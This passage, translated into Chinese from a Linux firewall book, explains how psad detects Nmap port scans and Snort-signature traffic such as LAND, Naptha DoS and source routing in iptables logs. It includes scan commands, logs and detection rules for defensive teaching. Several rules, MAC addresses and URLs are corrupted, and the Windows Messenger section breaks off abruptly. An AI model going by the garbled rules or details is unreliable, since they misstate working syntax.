
由于真实的 TCP 栈在通过 `connect()` 扫描发送的 `SYN` 数据包中包含更多选项，因此 `SYN` 扫描中 IP 头的长度字段要短 14 个字节。

### TTL

在客户端系统的真实 IP 栈进行 TCP `connect()` 扫描期间，IP 头中的生存时间（`TTL`）值总是被初始化为相同的值。然而，由于 Nmap 在 `SYN` 扫描中是手动构建 TCP `SYN` 数据包的，它可以将 `TTL` 值设置为任何它想要的值，并且它会在 37 到 60 之间随机选择 `TTL` 值。

### WINDOW

在 `SYN` 扫描期间，Nmap 将 TCP 窗口大小设置为 1024、2048、3072 或 4096。相比之下，真实的 TCP 栈始终以 5840 的窗口大小启动 TCP 连接。

### OPT

Nmap `SYN` 扫描中 TCP 头的选项部分要短得多。在这种情况下，它仅使用一个选项，即最大分段大小（Maximum Segment Size），并将其设置为 1460。[42] 大多数真实的 TCP 栈除了最大分段大小外，还会发送多个选项，例如时间戳（Timestamp）、无操作（`NOP`）以及是否支持选择性确认（`SACK`）。（您可以在第 122 页的“使用 psad 模拟 p0f”中找到关于解码 `iptables` 消息中 `OPT` 字符串的更多信息。）

## TCP FIN, XMAS, 和 NULL 扫描

Nmap 的 FIN、XMAS 和 NULL 扫描在 `iptables` 日志消息中表现得非常相似。事实上，这些扫描类型之间唯一的显著区别在于所使用的 TCP 标志组合——这种区别体现在 TCP 数据包的 `iptables` 日志格式的 TCP 标志部分。此外，由于 FIN、XMAS 和 NULL 扫描分别由一个不需要应用层检查的特定 Snort 规则表示，因此 `psad` 可以通过单个数据包检测到这些扫描，而无需依赖数据包计数和端口范围。

### FIN 数据包与 Netfilter 连接跟踪

在合法的 TCP 通信中，发现设置了 FIN 标志的 TCP 数据包是很正常的；它用于指示 TCP 连接的一方没有更多数据要发送且正在关闭连接。因此，为了让 `psad` 能够有效地区分 FIN 扫描和合法的 FIN 数据包，使用 Netfilter 的连接跟踪机制来接受所有匹配 `ESTABLISHED` 状态的数据包，并记录和丢弃其余数据包至关重要。意外的 FIN 数据包匹配 Netfilter 的 `INVALID` 状态，因为它们不属于任何已建立的 TCP 连接，因此在第一章 `iptables.sh` 脚本构建的 `iptables` 策略中会被非常早地记录并丢弃。

您可以使用 Nmap 分别对应的 `-sF`、`-sN` 和 `-sX` 命令行参数来启动 FIN、XMAS 和 NULL 扫描。为了简洁起见，我们下面仅展示 FIN 扫描：

```
[ext_scanner]# nmap -sF -n 71.157.X.X --max-rtt-timeout 5
```

```
Starting Nmap 4.03 ( http://www.nmap.org/nmap/ ) at 2007-07-13 14:39 EDT
All 1674 scanned ports on 71.157.X.X are: open|filtered

Nmap finished: 1 IP address (1 host up) scanned in 36.223 seconds
```

如您所见，FIN 扫描并未逃过 `psad` 的监视：

```
Jul 13 14:39:10 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X
tcp: [1-65295] flags: FIN tcp pkts: 1511 DL: 4
```

我们在 `/var/log/psad/fwddata` 文件中看到许多类似于以下消息的日志。FIN 标志列在 ▲ 处，同时在 ℐ 处有 `DROP INVALID` 日志前缀，表明 `INVALID` 状态日志规则匹配了这些数据包：

```
Jul 13 14:39:05 iptablesfw kernel: @DROP INVALID IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=40 TOS=0x00 PREC=0x00 TTL=54 ID=7549 PROTO=TCP SPT=5615 DPT=802 WINDOW=3072 RES=0x00 FIN URG=0
Jul 13 14:39:05 iptablesfw kernel: DROP INVALID IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=40 TOS=0x00 PREC=0x00 TTL=53 ID=24087 PROTO=TCP SPT=45615 DPT=2431 WINDOW=2048 RES=0x00 FIN URG=0
Jul 13 14:39:05 iptablesfw kernel: DROP INVALID IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=40 TOS=0x00 PREC=0x00 TTL=53 ID=33917 PROTO=TCP SPT=45615 DPT=337 WINDOW=2048 RES=0x00 FIN URG=0
```

XMAS 和 NULL 扫描生成的 `iptables` 日志消息与 FIN 扫描非常相似；XMAS 扫描的日志消息仅包含 `URG PSH FIN` 而非仅有 `FIN` 标志。


```text
Jul 13 14:39:05 iptablesfw kernel: DROP INVALID IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:48:0e:4:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=40 TOS=0x00 PREC=0x00 TTL=53 ID=33917 PROTO=TCP SPT=45615 DPT=337 WINDOW=2048 RES=0x00 URG PSH FIN URG=0
```

NULL 扫描的日志消息则完全不包含 TCP 标志：

```text
Jul 13 14:39:05 iptablesfw kernel: DROP INVALID IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:48:0e:4:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=40 TOS=0x00 PREC=0x00 TTL=53 ID=33917 PROTO=TCP SPT=45615 DPT=337 WINDOW=2048 RES=0x00 URG=0
```

## UDP 扫描

UDP 服务的扫描不像 TCP 服务扫描那样丰富，因为 UDP 比 TCP 简单得多，且没有像 TCP 那样的“连接”概念。幸运的是，iptables 仍然允许我们跟踪与 UDP 通信相关的数据包，例如从外部 DNS 服务器到 iptables 防火墙后内部系统发出的 DNS 查询的响应。这一重要功能可以帮助我们将合法的 UDP 响应与构成 UDP 扫描的数据包区分开来。

我们使用`-sU`选项来查看运行 iptables 的系统：

```text
[ext_scanner]# nmap -sU -n 71.157.X.X --max-rtt-timeout 500
```

```text
Starting Nmap 4.03 ( http://www.nmap.org/nmap/ ) at 2007-07-13 15:24 EDT
Interesting ports on 71.157.X.X:
(Too many ports scanned but not shown above are in state: open|filtered)
PORT STATE SERVICE
53/udp closed domain
Nmap finished: 1 IP address (1 host up) scanned in 23.721 seconds
```

从上述扫描输出中加粗的部分可以看出，唯一不在 open 或 filtered 状态的端口是 UDP 端口 53。Nmap 推断出这一点是因为在扫描 UDP 端口 53 时，它收到了来自目标系统的 ICMP Port Unreachable（端口不可达）消息，这表明该端口没有绑定服务器。其余端口的所有探测都遭到了完全的沉默，因为它们被 iptables 丢弃了，因此 Nmap 无法知道它们是 open 还是 filtered。UDP 服务器不被要求对任意数据包做出任何响应，且由于 UDP 栈本身不产生额外的数据包（不像 TCP 有确认和连接关闭消息），Nmap 无法判断每个端口是否真的有关联的服务器。

当 iptables 记录一个数据包时，psad 假设此类数据包被记录是因为它们不符合本地安全策略且可能具有恶意性。因此对于上述 UDP 扫描，一旦扫描者发送的 UDP 数据包数量超过`DANGER_LEVEL1`值，且一定比例超过`PORT_RANGE_SCAN_THRESHOLD`值，psad 就会将该流量定义为扫描。在本例中，psad 检测到了 UDP 扫描，并通过 syslog 尽职地报告了它：

```text
Jul 13 15:24:02 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X udp: [2-54321] udp pkts= 922 DL= 3
```

以下是该扫描生成的几条 iptables UDP 日志消息。加粗显示的是协议（本例中为 UDP）、源和目的 IP 地址、端口号以及长度（由于 Nmap 没有包含任何应用层数据，长度始终为 8 个字节）：

```text
Jul 13 15:24:03 iptablesfw Kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=28 TOS=0x00 PREC=0x00 TTL=53 ID=28505 PROTO=UDP SPT=36194 DPT=306 LEN=8
Jul 13 15:24:01 iptablesfw Kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=28 TOS=0x00 PREC=0x00 TTL=43 ID=28413 PROTO=UDP SPT=36194 DPT=216 LEN=8
Jul 13 15:24:01 iptablesfw Kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X LEN=28 TOS=0x00 PREC=0x00 TTL=37 ID=42032 PROTO=UDP SPT=36194 DPT=31 LEN=8
```

---

[42] 4.02 之前的 Nmap 版本在 SYN 数据包中完全不发送任何 TCP 选项，在网络流量中寻找 Nmap 扫描时，这是一个非常有用的已知事实，因为它可以为您提供关于潜在对手的更多信息。

## 使用 psad 进行警报与报告

一旦 psad 确定针对 iptables 发生了可疑事件或一系列事件，它会向管理员发出警报。其目标是提供尽可能详细的信息，以便管理员能够决定适当的响应措施。默认情况下，psad 会同时生成电子邮件和 syslog 警报，你将在本节的示例中看到。

### psad 电子邮件警报

电子邮件是 psad 的主要警报机制，因为电子邮件消息可以包含比 syslog 警报更多的信息，且电子邮件无处不在，能够与手机和其他手持设备良好集成。几乎总有一种简便的方法来检查邮件。

以下是一个典型的 psad 电子邮件警报示例。此特定警报是在 psad 检测到来自图 6-1 所示的`int_scanner`系统的 TCP`connect()`扫描后发送的。（由于这是书中的第一个此类示例，我们将在接下来的章节中详细讲解整个警报内容。）可在 http://www.cypherdyne.org/linuxfirewalls 下载接下来的章节中讨论的完整 psad 警报示例。

#### 扫描危险等级、端口和标志

psad 电子邮件警报中包含的第一部分信息是分配给扫描源地址的危险等级、被扫描的端口以及扫描中设置的标志（针对 TCP 扫描）。在下面的 psad 警报片段中，危险等级被设置为 4，因为此次扫描涉及的数据包数量和端口范围分别超过了`/etc/psad/psad.conf.file`中`DANGER_LEVEL4`和`PORT_RANGE_SCAN_THRESHOLD`变量要求的默认值 1,500 和 1。此外，由于源 IP 地址未包含在`/etc/psad/auto_dl`文件中，psad 不会自动为该源 IP 地址分配危险等级。由于此次扫描没有触发任何危险等级高于 4 的签名，因此最终的危险等级仅根据数据包计数和扫描端口范围来确定。

接着，我们看到最小 TCP 端口号为 1，最大为 61,440。并非该范围内的每个端口都被扫描了，因为即使没有重传（在本例中使用`connect()`扫描时会发生重传），这也至少需要 61,440 个 SYN 数据包。默认情况下，如果未明确给 Nmap 指定扫描端口范围，它会扫描一组有趣（interesting）的端口，这些端口源自 Nmap 源码包中的`nmap-services`文件；我们可以看到此次扫描中仅设置了 SYN 标志。从 iptables 的角度来看，这些标志意味着 Nmap 被赋予了`-sT`或`-sS`命令行参数。最后显示的是日志前缀，在本例中，此次扫描的每个数据包都被 iptables 以`DROP`为前缀记录。

```text
Danger level: {4} (out of 5)
Scanned tcp ports: [1-61440: 1522 packets]
tcp flags: [SYN: 1522 packets, nmap: -sT or -sS]
iptables chain: INPUT (prefix "DROP"), 398 packets
```

### 源和目的 IP 地址

接下来是扫描的源 IP 地址以及反向 DNS 信息。默认情况下，除非在 psad 命令行中指定`--no-rdns`选项，否则 psad 会对违规的源 IP 地址进行反向 DNS 查询。此外还包含一个 psad 从 SYN 数据包中得出的被动 OS 指纹（下一章将详细讨论此主题），随后是目的 IP 地址和主机名。

```text
Source: 192.168.10.200
DNS: int_scanner
OS guess: Linux:2.5:Linux 2.5 (sometimes 2.4)
Destination: 192.168.10.1
DNS: iptablesfw
```

### syslog 主机名、时间间隔和汇总信息

接下来包含的是 syslog 主机名，如果 iptables 日志消息来自远程 syslog 服务器，则此信息最为有用。你可以配置 syslog 以接收来自多个运行 iptables 系统的日志消息，追踪主机名有助于区分来自多个系统的 psad 警报。同时还包含了时间戳信息，以便你知道 psad 警报是在何时生成的。

接下来，如果`ENABLE_PERSISTENCE`设置为`Y`，则扫描信息在 psad 运行期间不会超时或从内存中删除。汇总信息提供了源 IP 地址首次开始表现可疑的时间、psad 为同一源 IP 地址发送的电子邮件警报总数、自该源 IP 地址引起注意以来被扫描的完整端口范围，以及与该源 IP 地址相关的所有 iptables 链和数据包计数。

```text
Syslog hostname: iptables
Current interval: Tue Jul 10 12:06:23 2007 (start)
Tue Jul 10 12:06:27 2007 (end)
Overall scan start: Tue Jul 10 12:01:23 2007
Total email alerts: 1
Complete tcp range: [1-65301]
chain: interface: tcp: udp: icmp:
INPUT eth0: 3229 0 0
```

### whois 数据库信息

psad 电子邮件警报中的最后一块信息是对扫描源 IP 地址进行 whois 查询的结果。由 Marco d'Itri 编写的优秀 whois 客户端（见 http://www.linux.linux/~md/software）已随 psad 源码一起打包，并被 psad 用于所有 whois 查询。（你可以使用 psad 的`--no-whois`命令行参数禁用 whois 查询。）以下是针对扫描源 192.168.10.200 的 whois 查询结果：

```text
OrgName:     Internet Assigned Numbers Authority
OrgID:       IANA
Address:     4676 Admiralty Way, Suite 330
City:        Marina del Rey
StateProv:   CA
PostalCode:  90292-6695
Country:     US

NetRange:    192.168.0.0 - 192.168.255.255
CIDR:        192.168.0.0/16
NetName:     IANA-ONECL
NetHandle:   NET-192-0-0-0-1
Parent:      NET-192-0-0-0-0
NetType:     IANA Special Use
NameServer:  BLACKHOLE-1.IANA.ORG
NameServer:  BLACKHOLE-2.IANA.ORG
Comment:     This block is reserved for special purposes.
Comment:     Please see RFC 1918 for additional information.
Comment:    
RegDate:       1994-03-15
Updated:     2002-09-16

OrgAbuseHandle: IANA-IP-ARIN
OrgAbuseName:   Internet Corporation for Assigned Names and Number
OrgAbusePhone:  +1-310-301-5820
OrgAbuseEmail:  abuse@fiana.org

OrgTechHandle:  IANA-IP-ARIN
OrgTechName:   Internet Corporation for Assigned Names and Number
OrgTechPhone:   +1-310-301-5820
OrgTechEmail:   abuse@fiana.org

# ARIN WHOIS database, last updated 2006-06-09 19:10
# Enter ? for additional hints on searching ARIN's WHOIS database.
```

## psad syslog 报告

除了电子邮件警报外，syslog 也是 psad 的一个重要报告机制。在正常运行过程中，psad 会生成三类 syslog 警报。

### 信息消息

psad 会定期生成信息性 syslog 消息，旨在告知你 psad 执行的管理活动，例如导入配置文件以及从之前的 psad 执行过程中导入的扫描信息。

例如，psad 在启动时会向 syslog 写入以下消息：

```text
Jul 10 13:58:07 iptablesfw psad: imported valid icmp types and codes
Jul 10 13:58:07 iptablesfw psad: imported p0f-based passive OS fingerprinting signatures
Jul 10 13:58:07 iptablesfw psad: imported TOS-based passive OS fingerprinting signatures
Jul 10 13:58:07 iptablesfw psad: imported Snort classification.config
Jul 10 13:58:07 iptablesfw psad: imported original Snort rules in /etc/psad/snort_rules/ for reference info
Jul 10 13:58:07 iptablesfw psad: imported 205 psad Snort signatures from /etc/psad/signatures
```

### 扫描和签名匹配消息

最重要的一类 syslog 消息是告知你关于扫描和其他可疑流量的信息。这些消息包含从源 IP 地址到端口、协议以及 Snort 规则匹配的所有内容，以下 syslog 消息显示了一组 psad 扫描警报。请注意其中包含的 TCP 标志信息，以便你能够识别 psad 检测到的扫描类型：

```text
Jul 13 14:51:48 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X tcp: [15018-15099] flags: fin tcp pkts: 10 DL: 2
Jul 13 15:22:38 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X tcp: [234-40200] flags: SYN tcp pkts: 22 DL: 2
Jul 13 17:12:32 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X tcp: [15018-15095] flags: NULL tcp pkts: 45 DL: 2
```

### 自动响应消息

我们可以使用 psad 通过对流量源 IP 地址实例化 iptables 阻断规则来响应可疑流量。此功能默认禁用，但这里有几条 syslog 消息显示了阻断规则的创建和销毁：

```text
Jul 12 00:06:37 iptablesfw psad: added iptables auto-block against 144.202.X.X for 3600 seconds
Jul 12 01:06:42 iptablesfw psad: removed iptables auto-block against 144.202.X.X
Jul 12 02:14:06 iptablesfw psad: added iptables auto-block against 22.1.X.X for 3600 seconds
Jul 12 03:14:11 iptablesfw psad: removed iptables auto-block against 22.1.X.X
```


这些 syslog 消息显示了源 IP 地址（`144.202.X.X`）被添加到 iptables 策略中（在 `INPUT`、`OUTPUT` 和 `FORWARD` 链中设置一组 `DROP` 规则）的秒数。同时显示的还有显示 `DROP` 规则从运行中的 iptables 策略中删除的 syslog 警报。

## 注意

关于响应功能的详细讨论，请参阅第 8 章和第 11 章。

> 这并不一定意味着任何形式的自动化响应。作为被扫描和探测系统的管理员，你可能想要手动拿起电话，与违规 IP 地址的上游提供商进行交谈。

## 结语

本章介绍了 `psad` 在检测和报告针对 iptables 防火墙系统（使用 `Nmap`）的端口扫描时的运行机制。电子邮件报告是 `psad` 的主要告警机制，但 `psad` 同时也提供 syslog 告警。在下一章中，我们将探讨更高级的 `psad` 主题，例如通过 iptables 日志消息检测符合 `Snort` 规则的流量。

# 第 7 章 高级 PSAD 主题：从特征匹配到操作系统指纹识别

到目前为止，我们已经看到 `psad` 通过分析 iptables 日志消息来检测端口扫描。在本章中，我们将进一步扩展攻击检测的主题；可以检测到符合 `Snort` 特征集（signature set）中某些特征的攻击，并且在某些系统情况下可以对远程操作系统进行指纹识别。我们还将展示如何从 `psad` 中提取详细的状态信息，并介绍 `DShield` 的报告功能。

## 使用 Snort 规则进行攻击检测

由于 iptables 的日志格式非常完整，`psad` 可以检测符合应用在网络层匹配标准的 `Snort` 规则的流量。例如，考虑以下 `Snort` 规则，它寻找源端口为 `10101`、确认值（acknowledgment）为零、设置了 `SYN` 标志且 IP 头部 `TTL` 值大于 `220` 的 TCP 数据包。

```
alert tcp $EXTERNAL_NET 10101 -> $HOME_NET any (msg:"SCAN myscan"; flow:stateless;
ack:0; flags:s; ttl:>220; reference:arachnids,439; classtype:attempted-recon;
sid:613; rev:6;)
```

这条 `Snort` 规则中没有检查应用层数据的测试，`Snort` 规则集中大约有 `150` 条此类规则。`psad` 从 `/etc/psad/signatures` 文件中导入所有这些规则的修改版本。[1] 如果你查看 `/etc/psad/signatures` 文件中的随机特征，例如 TCP SYN 数据包中的 `BAD-TRAFFIC` 数据特征（如下所示），你会发现 `psad` 扩展了通常的 `Snort` 规则语法，增加了一些由 ❶, ❷ 和 ❸ 所示的额外关键字：

```
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:BAD-TRAFFIC data in TCP SYN
packet; $psad_size:20; flags:s; reference:url,www.cert.org/incident_notes/IN-99-07.
html;classtype:misc-activity;sid:207; @psad_id:100000; @psad_dl:2;)
```

这些关键字的增加为特征提供了特定信息，使特征与 `psad` 兼容。以下是 `psad` 对 `Snort` 规则的所有关键字增加项的定义：

- **psad_id**：此关键字定义一个唯一的 ID 编号，以便可以跟踪特征并将新特征添加到 `psad` 中。`psad_id` 字段类似于 `Snort` 的 `sid` 字段。所有 `psad_id` 值均为六位数字，且从 `10,000` 开始，以将其与 `Snort` `sid` 值区分开。这种定义自定义 ID 值的方法类似于 `Bleeding Snort` 项目 (http://www.bleedingsport.com)，其特征 ID 值为七位数字，且通常以特征创建的年份开头。

- **psad_dl**：此关键字指定 `psad` 应分配给触发该特征的 IP 地址的危险等级（danger level）。`psad_dl` 字段接受 `1` 到 `5` 之间的值。

- **psad_dsize**：此关键字通过从 iptables `LEN` 字段的值中减去头部长度，来指定数据包有效负载（payload）大小的匹配标准。此选项类似于 `Snort` 的 `dsize` 关键字，但由于 iptables 日志消息的 `LEN` 字段是记录的数据包的总长度（包括 IP 头部），因此 `psad` 必须减去头部长度。`psad_dsize` 关键字支持 `n:m`、`<n` 和 `>n` 形式的范围匹配。例如，要测试有效负载大小是否大于 `1,000` 字节，可以在特征中添加 `psad_dsize:>1000`。

- **psad_derived_sids**：此关键字允许 `psad` 跟踪导出 `psad` 特征的原始 `Snort` `sid` 值。某些 `psad` 特征是由多条 `Snort` 规则构建而成的，此关键字用于跟踪这些规则。

- **psad_ip_len**：此关键字指定 iptables 日志消息中 `LEN` 字段的匹配标准（这与 `psad_dsize` 关键字类似，但它不减去网络层和传输层头部的长度）。与 `psad_dsize` 关键字一样，`psad_ip_len` 关键字也支持 `n:m`、`<n` 和 `>n` 形式的范围匹配。例如，要测试 `LEN` 字段是否大于 `100` 字节且小于 `200` 字节，可以在特征中添加 `psad_ip_len: 100:200`。

接下来，我们重点介绍一些特定的 `Snort` 规则，以展示 `psad` 如何检测这些规则所代表的流量。针对触发 `Snort` 规则的 IP 地址采取自动化响应措施将在第 11 章中讨论。

### 检测 ipEye 端口扫描器

`ipEye` 端口扫描器 (http://ntsecurity.nu.com/toolbox/ipeye) 是一款允许用户对远程主机进行端口扫描的软件。从这个意义上说，`ipEye` 与 `Nmap` 类似（尽管功能远没有那么丰富），它运行在 Windows 系统上。`Snort` 规则 ID `622` 可检测网络中是否正在使用 `ipEye` 扫描器：

```
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"SCAN ipEye SYN scan"; flags:S;
seq:1958810375; reference:arachnids,236; classtype:attempted-recon; sid:622; psad_id:
100197; psad_dl:2;)
```

上述 `Snort` 规则不需要使用任何应用层测试；相反，它只需检测 TCP 头部中是否设置了 `SYN` 标志和特定的 TCP 序列号 `1958810375`。

要使用 `psad` 检测 `ipEye` 扫描器的实例，必须在 iptables 命令行中使用 `--log-tcp-sequence` 选项，以便 iptables 在数据包命中 `LOG` 规则时在日志消息中包含 TCP 序列号。任何包含 `SYN` 标志和序列号 `1958810375` 的 iptables 日志消息都将触发 `psad` 中的特征匹配：

`Jul 11 20:28:25 iptables fw subnet: DROP IN=eth0 OUT= MAC=00:13:3a:0e:3a:11 p Proto=TCP SPT=45664 DPT=15324 SEQ=1958810375 ACK=0 WINDOW=5840 RES=0x00 SYN URGP=0`

在 `psad` 运行的情况下，`/var/log/messages` 中会出现以下包含消息特征匹配的 syslog 消息，表明 `psad` 已检测到 `ipEye` 扫描器：

`Jul 11 20:28:25 iptables fw psad: src: 192.168.10.3 signature match: "SCAN ipEye SYN scan" (sid: 622) tcp port: 15324`

### 检测 LAND 攻击

`LAND` 攻击是一个经典的旧式攻击。这是一种针对 Windows 系统的拒绝服务（DoS）攻击，它涉及构造一个源 IP 地址与其目的 IP 地址相同的 TCP SYN 数据包。在 `Snort` 特征集中，检测 `LAND` 攻击的关键是 `sameip` 数据包头部测试。`Snort` 规则 ID `527` 的修改版本（原在 `Snort` `bad-traffic.rules` 文件中）允许 `psad` 在 iptables 日志中检测此攻击：

```
alert ip any any -> any any (msg:"BAD-TRAFFIC same SRC/DST"; sameip; reference: bugtraq, 2666; reference:cve,1999-0016; reference:url,www.cert.org/advisories/CA-1997-29; html:classtype:bad-unknown; sid:527; psad_id:100103; psad_dl:2;)
```

`psad` 通过检查 iptables 日志中的 `SRC` 和 `DST` 字段是否相同来包含 `sameip` 测试。然而，为了减少误报，通过回环接口（loopback interface）记录的流量被排除在此检查之外。

由于 `SRC` 和 `DST` 字段始终包含在 iptables 日志消息中，因此在构建 `LOG` 规则时，不需要给 iptables 提供特殊的命令行参数，`psad` 即可检测与 `LAND` 攻击相关的流量。以下行代表由 `LAND` 攻击生成的 iptables 日志消息（注意源 IP 和目的 IP 相同），随后是相应的 `psad` syslog 告警：

`Jul 11 20:31:35 iptablesFW kernel: DROP IN=eth0 OUT= MAC=00:13:38:b6:e4:00:13:46:c2:60:44:08:00 SRC=192.168.10.3 DST=192.168.10.3 LEN=60 TOS=0x0 PREC=0x00 TTL=63 ID=46699 DF PROTO=TCP SPT=5278 DPT=15001 WINDOW=5840 RES=0x00 SYN URGP=0`

`Jul 11 20:31:38 iptables psad: src: 192.168.10.3 signature match: "BAD-TRAFFIC same SRC/DST" (sid: 527) ip`

### 检测 TCP 端口 0 流量

虽然合法的 TCP 连接不会通过端口 `0` 传输，但没有什么能阻止有人发送一个目的端口为 `0` 的 TCP 数据包。事实上，`Nmap` 在 `3.50` 版本中获得了扫描端口 `0` 的能力。

原始的 `Snort` 规则 `524` 检测发送到目的端口 `0` 的 TCP 数据包，对于 UDP 端口 `0` 也有类似的规则：

```
alert tcp $EXTERNAL_NET any <> $HOME_NET any (msg:"BAD-TRAFFIC tcp port 0 traffic"; classtype:misc-activity; sid:524; psad_id:100101; psad_dl:2;)
```

在 `DPT` 字段中包含值 `0` 的 iptables 日志消息将触发 `psad` 中的此特征：

`Jul 11 20:02:07 iptablesFW kernel: DROP IN=eth1 OUT= MAC=00:13:38:b6:e4:00:13:46:c2:60:44:08:00 SRC=192.168.10.3 DST=192.168.10.1 LEN=44 TOS=0x0 PREC=0x00 TTL=41 ID=43697 PROTO=TCP SPT=29121 DPT=0 WINDOW=3072 RES=0x00 SYN URGP=0`

`Jul 11 20:02:11 iptables psad: src: 192.168.10.3 signature match: "BAD-TRAFFIC tcp port 0 traffic" (sid: 524) tcp port: 0 ip`

### 检测 TTL 为零的流量

与 TCP 和 UDP 端口 `0` 类似，在网络上传输 `TTL` 值为零的数据包也是可能的。虽然路由 IP 数据包的设备不应转发此类数据包，但一个系统可以向通过二层设备（如交换机或网桥）连接的任何其他系统发送此类数据包。

`Snort` 规则 ID `1321` 检测 `TTL` 值设置为零的 IP 数据包，相应的 iptables 消息如下所示：

```
alert ip $EXTERNAL_NET any <> $HOME_NET any (msg:"BAD-TRAFFIC 0 ttl"; ttl:0; reference:url,support.microsoft.com/default.aspx?cid=kb\EN-us\q38268; reference:url,www.isi.edu/in-files/rfcl122.txt; classtype:misc-activity; sid:1321; psad_id:100104;psad_dl:2;)
```

在 `TTL` 字段中包含值 `0` 的 iptables 日志消息将触发 `psad` 中的此特征：

`Jul 14 15:33:28 iptablesFW kernel: IN=eth1 OUT= MAC=00:13:46:3a:41:4b:00:13:46:c2:60:44:08:00 SRC=192.168.10.3 DST=192.168.10.1 LEN=104 TOS=0x00 PREC=0x00 TTL=0 ID=0 DF PROTO=ICMP TYPE=0 CODE=0 ID=1830 SEQ=15412`

`Jul 14 15:33:31 iptablesFW psad: src: 192.168.10.3 signature match: "BAD-TRAFFIC 0 ttl" {sid: 1321} ip`

## 检测 Naptha 拒绝服务攻击

`Naptha` 拒绝服务工具旨在向目标 TCP 栈发送大量 SYN 数据包，导致系统无法处理合法请求。根据 `Snort` 规则 ID `275`，`Naptha` 工具创建的数据包包含 IP ID 值为 `413` 以及 TCP 序列号为 `6060842`（如下方代码块中**粗体**所示）：

```
alert tcp $\EXTERNAL\_NET any <> $\HOME\_NET any (msg:"DOS NAPTHA"; flags:S; id:413; seq: 6060842; reference:buqtraq,2002; reference:cve,2000-1039; reference:url,razor.bindview.com/publish/advisories/adv_naptha.html; reference:url,www.cert.org/advisories/CA-2000-21.html; reference:url,www.comstechnic.com/technet/security/bulletin/MS00-091.ms; classtype:attempted-dos; sid:275; psid:id_10011; psid:psid_dl_2;);
```

以下 iptables 日志消息触发了 `psad` 中的 `Naptha` 规则（请注意 ❶ 处的 IP ID 值 `413`，❷ 处的 TCP 序列号 `6060842`，以及 ❸ 处设置的 `SYN` 标志）：

```
Jul 11 20:28:21 iptables fw kernel: IN=eth1 OUT= MAC=00:13:46:3a:41:4b proto=0x0 tcp: SRC=192.168.10.3 DST=192.168.10.1 LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID= 413 DF PROTO=TCP SPT=45564 DPT=15304 SEQ=6060842 ACK=0 WINDOW=5840 RES=0x0 SYN UGURP=0 Jul 14 15:35:26 iptables psad: src: 192.168.10.3 signature match: "DOS NAPTHA" (sid: 275) tcp port: 15304
```

## 源路由检测尝试

源路由（Source Routing）是 IPv4 协议支持的一种技术，攻击者可以尝试通过原本无法访问的网络来路由数据包。源路由选项包含在 IP 报头（Header）的选项部分中，`Snort` 规则 ID `500` 通过 `ipopts` IP 报头测试来检测松散源路由（Loose Source Routing）尝试（如下方代码块中**粗体**所示）：

```
alert ip $\EXTERNAL\_NET any -> $\HOME\_NET any (msg:"MISC source route lsr"; ipopts: lsr; reference:arachnida,418; reference:buqtraq,646; reference:cve,1999-0909; classtype:bad-unknown; sid:500; psid:id_100199; psid:psid_dl_2;);
```


由于只有在启用 IP 选项时才能发布松散源路由指令，因此 `psad` 仅在 `iptables` 的 `--Log-ip-options` 命令行参数中构建了 `LOG` 规则时才能检测到此类流量。当 `iptables` 记录包含 IP 选项的 IP 数据包时，日志消息会在 `OPT` 字符串中包含选项声明，例如 `OPT ( 830708C0A80A0300)`。根据 RFC 791，松散源路由选项被定义为选项编号 131（十六进制 83）且具有可变长度。以下 `iptables` 日志消息包含了一个由带有松散源路由选项的 IP 数据包生成的 `OPT` 字符串：

```text
Jul 13 19:39:53 iptables fw kernel: IN=eth1 OUT= SRC=192.168.10.3 DST=192.168.10.1 LEN= 48 TOS=0x00 PREC=0x00 TTL=64 ID=10096 OPT (830708C0A80A0300) PROTO=TCP SPT=3017 DPT= 0 WINDOW=512 RES=0x00 URGP=0
```

`psad` 注意到了这次源路由尝试：

```text
Jul 13 19:39:56 iptablesfw psad: src: 192.168.10.3 signature match: "MISC source route lsr" (sid: 500) ip
```

## 检测 Windows Messenger 弹窗垃圾邮件

垃圾邮件是互联网上一个普遍存在的问题，我们都感受到了这一祸患的影响。垃圾邮件发送者尝试让更多人看到其内容的一种常见方式是通过 Windows Messenger 服务直接发送。虽然检测来自外部网络的此类流量几乎没有意义（因为每条垃圾邮件都可以伪造，且除非消息很大，否则仅需一个 UDP 数据包即可传输），但检测来自内部网络的此类流量则至关重要。任何在内网产生此类流量的系统都可能已被攻破，并被远程控制者用于发送垃圾邮件。

在处理流量时，不使用主动 OS 指纹识别。我们将从纯被动手段能够实现的功能这一角度继续讨论。

最知名且最成功的被动操作系统指纹识别实现之一是 `p0f`，由 Michal Zalewski (`http://lcamtuf.coredump.cx`) 开发。事实证明，如果你能被动地截获原始 TCP 数据包数据（无论是因为你拥有数据包流经的网络分段访问权限，还是因为数据包的目标或来源是你控制的系统），你就可以获取大量对 OS 指纹识别有用的有趣信息。TCP SYN 和 SYN/ACK 数据包贡献的信息最多，因为它们定义了 TCP 连接应当遵循的参数，而且不同的 TCP 栈在协商这些参数时存在某些区别。

在 `p0f` 的 OS 指纹识别实现中，远程操作系统是通过检查源自该系统的 TCP SYN 或 SYN/ACK 数据包的 IP 和 TCP 报头中的几个字段来识别的。这些字段包括：

